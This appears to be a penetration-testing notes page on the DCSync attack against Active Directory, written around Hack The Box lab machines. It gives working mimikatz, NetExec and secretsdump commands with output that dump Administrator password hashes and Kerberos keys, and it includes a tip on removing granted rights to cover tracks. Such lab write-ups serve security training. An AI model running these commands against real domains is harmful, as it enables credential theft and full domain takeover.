 ```yaml
---
description: >-
  An one-liner late-phase attack aiming on full domain compromise. Can be
  perfomed after owning an domain account which has DCSync rights.
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# DCSync

## Concept

{% embed url="https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection" %}
A great article about the DCSync attack.
{% endembed %}

<div align="left">

<figure><img src="../../../.gitbook/assets/dcsync_attack.png" alt=""><figcaption></figcaption></figure>

</div>

DCSync is a technique for stealing the Active Directory password database (`ntds.dit`) by using the built-in **Directory Replication Service Remote** protocol, which is used by Domain Controllers (DCs) to replicate domain data. This allows an attacker to **mimic a DC and retrieve users' NTLM password hashes**. To perform this attack, we must have control over an account that has the rights to perform domain replication, aka **DCSync rights** (Figure 1):

1. `Replicating Directory Changes`
2. `Replicating Directory Changes All`
3. `Replication-Get-Changes-In-Filtered-Set` (sometimes)

> _Domain/Enterprise Admins and default Domain Administrators have these rights by default._

<figure><img src="../../../.gitbook/assets/dc_sync_rights.png" alt=""><figcaption><p>Firure 1: DCSync rights (image taken from the article linked below).</p></figcaption></figure>

## Tools

{% hint style="info" %}
If we have `WriteDacl`rights over an account, we can assign DCSync rights to it, execute the DCSync attack, and then remove them to attempt to cover our tracks. An example of this can be seen in the [privilege escalation part of the Forest box](../../../boxes/easy/forest.md#privilege-escalation). In the examples below, we assume that the user `hacker`has DCSync rights.
{% endhint %}

### Windows

The DCSync attack can be performed with [`mimikatz`](https://github.com/ParrotSec/mimikatz), but we must target a specific user and it must be ran in the context of the user who has DCSync privileges. The latter can be achieved with [Runas](https://github.com/antonioCoco/RunasCs):

```sh
# start a powershell session in the context of hacker
>runas /netonly /user:HTB\hacker powershell
Enter the password for HTB\hacker:
Attempting to start powershell as user "HTB\hacker" ...
```

Now we can perform the attack from the spawned PowerShell:

```powershell
> .\mimikatz.exe
 
mimikatz # privilege::debug
Privilege '20' OK
 
mimikatz # lsadump::dcsync /domain:HTB.LOCAL /user:HTB\administrator
[DC] 'HTB.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.HTB.LOCAL' will be the DC server
[DC] 'HTB\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
 
Object RDN           : Administrator
 
** SAM ACCOUNT **
 
SAM Username         : administrator
User Principal Name  : administrator@htb.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500
 
Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf
 
Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d
 
<SNIP>
```

### Linux

We can use [NetExec](https://github.com/Pennyw0rth/NetExec) to dump the whole `ntds.dit` database or the hash of a specified user:

{% hint style="info" %}
NXC uses [secretsdump's methods](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-ntds.dit) to dump `ntds.dit`.
{% endhint %}

```bash
# dumping the administrator hash
$ nxc smb 10.10.10.161 -u hacker -p h@ck3r! --ntds --user administrator
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\hacker:h@ck3r!
SMB         10.10.10.161    445    FOREST           [-] Account not found in the BloodHound database.
SMB         10.10.10.161    445    FOREST           [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         10.10.10.161    445    FOREST           [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.10.161    445    FOREST           htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
SMB         10.10.10.161    445    FOREST           [+] Dumped 1 NTDS hashes to /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-03-22_110253.ntds of which 1 were added to the database
SMB         10.10.10.161    445    FOREST           [*] To extract only enabled accounts from the output file, run the following command:
SMB         10.10.10.161    445    FOREST           [*] cat /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-03-22_110253.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.10.10.161    445    FOREST           [*] grep -iv disabled /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-03-22_110253.ntds | cut -d ':' -f1
```

Impacket's [`secretsdump.py`](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) can be also used directly.&#x20;

```bash
$ secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32<REDACTED>a6:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
[*] Cleaning up...
```

## Practice

* [Forest (Easy)](../../../boxes/easy/forest.md)
* [Sauna (Easy)](../../../boxes/easy/sauna.md)
